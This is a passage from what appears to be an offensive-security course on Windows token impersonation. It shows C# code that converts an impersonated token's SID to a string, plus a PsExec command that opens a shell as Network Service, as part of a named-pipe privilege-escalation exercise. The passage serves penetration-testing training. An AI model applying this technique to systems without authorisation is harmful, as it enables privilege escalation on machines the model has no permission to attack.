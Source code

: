 > Listing 27 - ConvertSidToStringSid function prototype

The first argument (_Sid_) is a pointer to the SID. The SID is in the output buffer that was populated by _GetTokenInformation_, but we must extract it first.

One way to do this is to define the _TOKEN\_USER_[23](https://portal.offsec.com/courses/pen-300-9502/learning/windows-credentials-14692/windows-credentials-14820#fn-local_id_505-23) structure (which is part of the _TOKEN\_INFORMATION\_CLASS_ used by _GetTokenInformation_) and then marshal a pointer to it with _Marshal.PtrToStructure_.[24](https://portal.offsec.com/courses/pen-300-9502/learning/windows-credentials-14692/windows-credentials-14820#fn-local_id_505-24)

For the last argument (_\*StringSid_), we'll supply the output string. Here we can simply supply an empty pointer and once it gets populated, marshal it to a C# string with _Marshal.PtrToStringAuto_.[25](https://portal.offsec.com/courses/pen-300-9502/learning/windows-credentials-14692/windows-credentials-14820#fn-local_id_505-25)

The required structures, import, and added code are shown in Listing 28.

```
 [StructLayout(LayoutKind.Sequential)]
public struct SID_AND_ATTRIBUTES
{
    public IntPtr Sid;
    public int Attributes;
}

public struct TOKEN_USER
{
    public SID_AND_ATTRIBUTES User;
}
...
[DllImport("advapi32", CharSet = CharSet.Auto, SetLastError = true)]
static extern bool ConvertSidToStringSid(IntPtr pSID, out IntPtr ptrSid);
...
TOKEN_USER TokenUser = (TOKEN_USER)Marshal.PtrToStructure(TokenInformation, typeof(TOKEN_USER));
IntPtr pstr = IntPtr.Zero;
Boolean ok = ConvertSidToStringSid(TokenUser.User.Sid, out pstr);
string sidstr = Marshal.PtrToStringAuto(pstr);
Console.WriteLine(@"Found sid {0}", sidstr);
```

> Listing 28 - Code additions to call ConvertSidToStringSid

At the end of Listing 28, we print the SID associated with the token to the console, showing which user we impersonated.

Now we have finally written all the code we need to start our test and better understand the use of named pipes for impersonation and privilege escalation.

As previously mentioned, we must execute the code in the context of a user account that has the _SeImpersonatePrivilege_ access right. For our attack demonstration, we'll log in to appsrv01 as the domain user _admin_ and use PsExec to open a command prompt as the built-in _Network Service_ account as shown in Listing 29.

```
C:\Tools\SysInternalsSuite> psexec64 -i -u "NT AUTHORITY\Network Service" cmd.exe

PsExec v2.2 - Execute processes remotely
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals - www.sysinternals.com
```
